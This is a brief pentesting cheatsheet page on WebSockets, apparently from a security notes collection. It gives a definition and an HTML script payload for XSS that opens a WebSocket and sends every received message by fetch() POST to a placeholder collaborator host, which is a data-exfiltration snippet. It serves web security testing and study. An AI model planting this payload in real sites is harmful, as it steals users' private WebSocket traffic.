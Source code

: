 # Websocket

## Definition

A **WebSocket** is a protocol for bidirectional, full-duplex communication over a single TCP connection. It is a modern, efficient, and secure way for web applications to communicate with each other in real-time. With WebSockets, a web application can send and receive data in real-time without the need for continuous polling, which can reduce latency and improve performance. WebSockets are often used in applications such as online gaming, chat, and real-time data visualization.

## Cheatsheet

- XSS in websocket
- Exfil WS data

```html
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```


## References

- [PortSwigger - Websocket](https://portswigger.net/web-security/websockets/)